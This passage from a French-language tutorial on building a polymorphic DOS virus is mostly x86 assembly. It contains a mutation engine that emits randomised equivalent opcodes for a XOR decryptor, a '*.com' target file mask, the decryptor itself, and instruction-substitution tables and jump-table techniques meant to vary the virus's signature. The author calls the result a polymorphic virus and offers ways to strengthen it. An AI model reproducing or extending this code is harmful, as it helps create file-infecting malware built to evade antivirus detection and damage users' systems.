mov byte ptr es:[si],0BEh ; Sinon utiliser "MOV SI,0103h"
inc si
mov byte ptr es:[si],03h ; " "
inc si
mov byte ptr es:[si],01h ; " "
jmp suite_02
instr_11:
mov byte ptr es:[si],0BEh ; mov si,100h
inc si
mov byte ptr es:[si],00h ;
inc si
mov byte ptr es:[si],01h ;
inc si
mov byte ptr es:[si],83h ; add si,0003h
inc si
mov byte ptr es:[si],0C6h
inc si
mov byte ptr es:[si],03h
jmp suite_02
instr_12:
mov byte ptr es:[si],5Fh ; pop DI
inc si
mov byte ptr es:[si],8Bh ; mov si,di
inc si
mov byte ptr es:[si],0F7h
inc si
mov byte ptr es:[si],57h ; push DI
suite_02:
inc si
;----------------------------------------------------------------------------
;- MOV AH,[SI] -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_21 ; Si cl=1 utiliser "mov al,[si]","XCHG AL,AH"
cmp cl,2
je instr_22 ; Si cl=2 "PUSH WORD PTR [SI]","POP BX","MOV AH,AL"
mov byte ptr es:[si],8Ah ; Sinon utiliser "MOV AH,[SI]"
inc si
mov byte ptr es:[si],24h
jmp suite_03
instr_21:
mov byte ptr es:[si],8Ah ; mov al,[si]
inc si
mov byte ptr es:[si],04H ; " "
inc si
mov byte ptr es:[si],86H ; xchg al,ah
inc si
mov byte ptr es:[si],0C4H ; " "
jmp suite_03
instr_22:
mov byte ptr es:[si],0FFh ; push word ptr [si]
inc si
mov byte ptr es:[si],34H ; " "
inc si
mov byte ptr es:[si],5BH ; pop bx
inc si
mov byte ptr es:[si],8AH ; mov ah,bl
inc si
mov byte ptr es:[si],0E3H ; " "
suite_03:
inc si
;----------------------------------------------------------------------------
;- XOR AH,90H -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_31
cmp cl,2
je instr_32
mov byte ptr es:[si],80h ; xor ah,90h
inc si
mov byte ptr es:[si],0F4h ; " "
inc si
mov byte ptr es:[si],90h ; " "
jmp suite_04
instr_31:
mov byte ptr es:[si],80h ; xor ah,90h (a modifier pour muta)
inc si
mov byte ptr es:[si],0F4h ; " "
inc si
mov byte ptr es:[si],90h ; " "
jmp suite_04
instr_32:
mov byte ptr es:[si],80h ; xor ah,90h (a modifier pour muta)
inc si
mov byte ptr es:[si],0F4h ; " "
inc si
mov byte ptr es:[si],90h ; " "
suite_04:
inc si
;----------------------------------------------------------------------------
;- CALL -> POP DI -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_41
cmp cl,2
je instr_42
mov byte ptr es:[si],0E8h ; call (décalage nul , pointe sur pop di)
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],5Fh ; le fameu POP DI (DI contient le registre IP)
jmp suite_05
instr_41:
mov byte ptr es:[si],0E8h ; call (decalage nul , pointe sur pop di)
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],5Fh ; le fameu POP DI (DI contient le registre IP)
jmp suite_05
instr_42:
mov byte ptr es:[si],0E8h ; call (decalage nul , pointe sur pop di)
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],00h ; " "
inc si
mov byte ptr es:[si],5Fh ; le fameu POP DI (DI contient le registre IP)
jmp suite_05
suite_05:
inc si
;----------------------------------------------------------------------------
;- ADD DI,04 -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_51
cmp cl,2
je instr_52
mov byte ptr es:[si],83h ; add di,04h
inc si
mov byte ptr es:[si],0C7h ; " "
inc si
mov byte ptr es:[si],04h ; " "
jmp suite_06
instr_51:
mov byte ptr es:[si],83h ; add di,04h
inc si
mov byte ptr es:[si],0C7h ; " "
inc si
mov byte ptr es:[si],04h ; " "
jmp suite_06
instr_52:
mov byte ptr es:[si],83h ; add di,04h
inc si
mov byte ptr es:[si],0C7h ; " "
inc si
mov byte ptr es:[si],04h ; " "
suite_06:
inc si
;----------------------------------------------------------------------------
;- XOR [SI],AH -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_61
cmp cl,2
je instr_62
mov byte ptr es:[si],30h ; xor [si],ah
inc si
mov byte ptr es:[si],24h
jmp suite_07
instr_61:
mov byte ptr es:[si],30h ; xor [si],ah
inc si
mov byte ptr es:[si],24h
jmp suite_07
instr_62:
mov byte ptr es:[si],30h ; xor [si],ah
inc si
mov byte ptr es:[si],24h
suite_07:
inc si
;----------------------------------------------------------------------------
;- INC SI -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_71
cmp cl,2
je instr_72
mov byte ptr es:[si],46h ; inc si
jmp suite_08
instr_71:
mov byte ptr es:[si],83h ; add si,1
inc si
mov byte ptr es:[si],0C6h
inc si
mov byte ptr es:[si],01h
jmp suite_08
instr_72:
mov byte ptr es:[si],46h ; inc si
suite_08:
inc si
;----------------------------------------------------------------------------
;- CMP SI, XX (Ajuster si modif) -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_81
cmp cl,2
je instr_82
mov byte ptr es:[si],81h ; cmp si, xx
inc si
mov byte ptr es:[si],0FEh
inc si
mov byte ptr es:[si],22h
inc si
mov byte ptr es:[si],04h
jmp suite_09
instr_81:
mov byte ptr es:[si],0BBh ; mov bx, XX
inc si
mov byte ptr es:[si],02h
inc si
mov byte ptr es:[si],04h
inc si
mov byte ptr es:[si],83h ; xor bx, 20h
inc si
mov byte ptr es:[si],0f3h
inc si
mov byte ptr es:[si],20h
inc si
mov byte ptr es:[si],3bh ;cmp si,bx
inc si
mov byte ptr es:[si],0F3h
jmp suite_09
instr_82:
mov byte ptr es:[si],81h
inc si
mov byte ptr es:[si],0FEh
inc si
mov byte ptr es:[si],022h
inc si
mov byte ptr es:[si],04h
suite_09:
inc si
;----------------------------------------------------------------------------
;- JE 195 (ip+2) -
;----------------------------------------------------------------------------
call rand
cmp cl,1
je instr_91
mov byte ptr es:[si],74h ; JE
inc si
mov byte ptr es:[si],02h
jmp suite_0a
instr_91:
mov byte ptr es:[si],7Dh ; JGE
inc si
mov byte ptr es:[si],02h
suite_0a:
inc si
;----------------------------------------------------------------------------
;- JMP DI ;RET -
;----------------------------------------------------------------------------
mov byte ptr es:[si],0FFh ; JMP DI
inc si
mov byte ptr es:[si],0E7h
inc si
mov byte ptr es:[si],0C3h ; RET
suite_0B:
ret
COM_FILE db '*.com',0 ;Place la chaîne de caractère '*.com'
;dans COM_FILE (COM_FILE="*.COM")
ender: ;Label qui sert à déterminer la taille
;du virus.
uncrypt:
mov cx,[ender - debut] ; Taille du code crypté. ( 1 )
mov si,offset debut ; SI pointe vers 'debut:'
mov ah,byte ptr [si] ; AH contient le byte pointé par SI
xor ah,90h ; Récupère la clef en AH
call decrypt
decrypt:
pop di
add di,4
xor byte ptr [si],ah ; ici on decrypte avec la clef.
inc si ; Deplace le pointeur.
cmp si,offset [uncrypt]; Evidemment , on ne décrypte pas le décrypteur :o) ( 2 )
je sortir
jmp di
sortir:
ret
end start ;Fin du code.
*************************************
* Instruction MOV Registre,valeur : *
*************************************
Ici , ce sera MOV AX,1234h
MOV BX,1231h ; AX=0000h BX=1231h PILE=0000h
PUSH BX ; AX=0000h BX=1231h PILE=1231h
POP AX ; AX=1231h BX=1231h PILE=0000h
XOR AX,5 ; AX=1234h BX=1231h PILE=0000h
ou
MOV AX,0FE05h
JMP $-2 ; Explication
XOR AH,0F8h
XOR AL,37h
ou
MOV AH,[CS:0] ; A CS:0 il y a le PSP qui commence par CD 20
MOV AL,[CS:1] ; AH = CDh et AL=20h
SUB AH,0BBh ; CDh - BBh = 12h
ADD AL,14H ; 20h - 14h = 34h . Ici AX=1234h
ou
MOV AX,0012h ; AX=0012h CL=0000h
MOV CL,8 ; AX=0012h CL=0008h
SHL AX,CL ; AX=1200h CL=0008h
OR AX,34h ; Masque 0034h
*************************************
* Instruction XOR Registre,valeur : *
*************************************
Cliquez ICI pour la table de véritée.
Ainsi , la fonction XOR peut s'écrire : (A ou B) et [pas(A et B)].
Nous pouvons écrire la fonction OU EXCLUSIF avec les fonctions logiques :
"ET" , "OU INCLUSIF" et "INVERSEUR".
Par exemple , pour faire 96h XOR 33h (=A5h) :
mov ax,9633h ; ah=96h et al=33h AX=9633h BX=0000h PILE=0000h
push ax ; copie 9633h dans la pile AX=9633h BX=0000h PILE=9633h
or ah,al ; OU INCLUSIF entre ah et al AX=B733h BX=0000h PILE=9633h
mov bh,ah ; met le resultat du 96h OU 33h dans bh AX=B733h BX=B700h PILE=9633h
pop ax ; restaure ax (donc ah et al) AX=9633h BX=B700h PILE=0000h
and ah,al ; ET entre 96h et 33h AX=1233h BX=B700h PILE=0000h
not ah ; INVERSION des bits de ah (12h -> EDh) AX=ED33h BX=B700h PILE=0000h
and ah,bh ; ET entre EDh et B7h AX=A533h BX=B700h PILE=0000h
Voila , AH contient le résultat de 96 XOR 33 , c'est à dire A5h.************************************* * Instruction JMP Adresse : * ************************************* cs:0100 BF0301 mov di,0103 mov di,offset debut cs:0103 3024 xor [si],ah debut : xor byte ptr [si],ah cs:0105 46 inc si inc si cs:0106 81FE2D04 cmp si,042D cmp si,offset [uncrypt] ; sur 'decypt' ? cs:010A 7402 je 010E je sortir ; OUI -> sortir cs:010C 57 push di push di ; met DI dans la pile .... cs:010D C3 ret ret ; Retourne à l'adresse DI cs:010E 90 nop sortir : nopOn sait que l'adresse de retour d'un CALL est stoqué dans la pile , alors on met soit même l'adresse de retour dans la pile et on fait un RET comme si on voulait revenir à l'adresse d'appel. (On simule un CALL a l'adresse désirée)
*************************************
* Instruction PUSH valeur : *
*************************************
Par exemple , pour faire un PUSH AX (AX=1234h) :
mov ax,1234h ; AX=1234h BP=0000h SP=FFFEh SS:SP=0000h
sub sp,2 ; AX=1234h BP=0000h SP=FFFCh SS:SP=????h
mov bp,sp ; AX=1234h BP=FFFCh SP=FFFCh SS:SP=????h
mov [ss:bp],ax ; AX=1234h BP=FFFCh SP=FFFCh SS:SP=1234h
*************************************
* Instruction ADD Reg,valeur : *
*************************************
Ainsi , la fonction ADD peut s'écrire : (A ET B) + (A OU B).
Nous pouvons écrire la fonction ADD avec les fonctions logiques :
"ET" et "OU INCLUSIF".
Par exemple , pour faire ADD AX,BX (AX=1234h BX=4321h AX+BX=5555h) :
mov ax,1234h ; AX=1234h BX=0000h PILE=0000h
mov bx,4321h ; AX=1234h BX=4321h PILE=0000h
and ax,bx ; AX=0220h BX=4321h PILE=0000h
push ax ; AX=0220h BX=4321h PILE=0220h
mov ax,1234h ; AX=1234h BX=4321h PILE=0220h
or ax,bx ; AX=5335h BX=4321h PILE=0220h
pop bx ; AX=5335h BX=0220h PILE=0000h
add ax,bx ; AX=5555h BX=0220h PILE=0000h
*************************************
* Instruction RET : *
*************************************
L'instruction RET peut être remplacée par un POP et un JMP.pop bx ; Met l'adresse de retour dans BX jmp bx ; Saute à l'adresse BX Générateur de nombres 'pseudo aléatoires' :Nous avons utilisé un générateur de nombre 'pseudo aléatoire' simpliste afin de tracer et de comprendre le code facilement.
Pour ceux qui ne sont pas très philosophe voila ce qu'on peut dire :
2436 ¦ 22 Division du Dividende 2436 par le Diviseur 22
22 +----
-- ¦ 110 Ca donne le Quotient 110
023 ¦
22 ¦
-- ¦
16 ¦ Et le reste 16
Pour faire 2436 il faut mettre 110 fois 22 et rajouter 16.
Les mathématiciens diront que 2436 est CONGRU à 16 (modulo 22).
16 = 2436 mod 22
Grace au modulo nous pouvons choisir la plage dans laquelle on veut un nombre en partant d'un nombre pouvant aller jusqu'à 255.Voyons ce que ca donne en assembleur :
mov ax,2436 ; 2436 en décimal <==> 0984 en hexadécimal AX=0984 BX=0000 DX=0000
mov bx,0022 ; 0022 en décimal <==> 0016 en hexadécimal AX=0984 BX=0016 DX=0000
div bx ; 0110 en décimal <==> 006E en hexadécimal (AH) AX=006E BX=0016 DX=0010
; 0016 en décimal <==> 0010 en hexadécimal (DX)
Si mon explication n'est pas claire allez voir ce site : Modulo ; il y a des exemples.
De plus sur ce site il y à des explications sur l'utilisation du Modulo dans le cryptage RSA.
Résumons :
A ce stade , nous avons :
- Un virus polymorphe
- Une petite liste de fonctions equivalentes afin de compléter le moteur de polymorphisme
- Un 'pseudo genérateur de nombres aléatoires paramétrable'.
Si on s'arrête ici nous aurons un petit virus sympathique , mais pas de quoi casser trois pattes à un canard.
Commencons par améliorer la partie "création d'un nouveau décrypteur" :call rand ; On prend un nombre aléatoire cmp cl,1 ; Si 1 alors aller à instruction x1 je instr_x1 cmp cl,2 ; Si 2 alors aller à instruction x2 je instr_x2 cmp cl,3 ; Si 3 alors aller à instruction x3 ETC ...D'accord , si on a 3 ou 4 fonctions équivalentes à notre disposition , mais si on table sur une dizaine , ca devient lourd.
Alors il faut utiliser cette structure :
; entrée : al = nombre aléatoire compris entre 0 et ??
; cl = nombres de possibilitées + 1 (fouchette entre 0 et CL)
;------------- Modulo -------------
mov cl,5 ; 6 possibilitees (0 / 1 / 2 /3 / 4 / 5)
div cl ; division - modulo
xchg ah,al ; on veut le resultat dans al
xor ah,ah ; ah = 0
;------- Pointeur d'adresse -------
mov cx,2 ; Adresse codée sur 2 octets
mul cx
mov bx,ax ; Copie ax dans bx
add bx,offset liste ; Ajoute à BX l'offset de 'liste'
call word ptr [bx] ; Saute à BX
;----------- Procédures -----------
......
instr_01:
bla bla
ret
instr_02:
bla bla
ret
etc ...
;--------- Fin du programme -------
mov ax,4c00h ; le code executable s'arret ici !
int 21h
; Maintenant on déclare les procédures qu'on va utiliser.
liste dw offset instr0
dw offset instr1
dw offset instr2
dw offset instr3
dw offset instr4
On Résume :
On déclare nos procédures (instr_01,instr_02...).
Après le CALL RAND on met :
mov cx,2 ; Adresse codée sur 2 octets
mul cx
mov bx,ax ; Copie ax dans bx
add bx,offset liste ; Ajoute à BX l'offset de 'liste'
call word ptr [bx] ; Saute à BX
Et voila , nous pouvons ajouter autant de fonction equivalentes qu'on veut sans alourdir le code innutilement.
Regardons sous Turbo Debugger :

En CS:0111 on fait un call à l'adresse contenue dans CS:0134 + 2*AL.
Si AL=0 alors BX=134 -> on fait un call vers l'adresse contenue dans CS:0134 => Call CS:0120
Si AL=1 alors BX=136 -> on fait un call vers l'adresse contenue dans CS:0136 => Call CS:0124
Si AL=2 alors BX=138 -> on fait un call vers l'adresse contenue dans CS:0138 => Call CS:0128
Si AL=3 alors BX=13A -> on fait un call vers l'adresse contenue dans CS:013A => Call CS:012C
Si AL=4 alors BX=13C -> on fait un call vers l'adresse contenue dans CS:013C => Call CS:0130
Je rappel par exemple qu'à l'adresse CS:0134 il y à 2001 , ceci est l'adresse CS:0120 du tableau 'LISTE' qui pointe sur CS:13E où il y à la première phrase : 'Cette fois c'est 0'.start: mov cx,[ender - debut] mov si,offset debut mov ah,byte ptr [si] xor ah,90h decrypt: xor byte ptr [si],ah inc si loop decrypt debut: nop ...Le décrypteur de base n'utilise que trois registres : CX , SI et AH.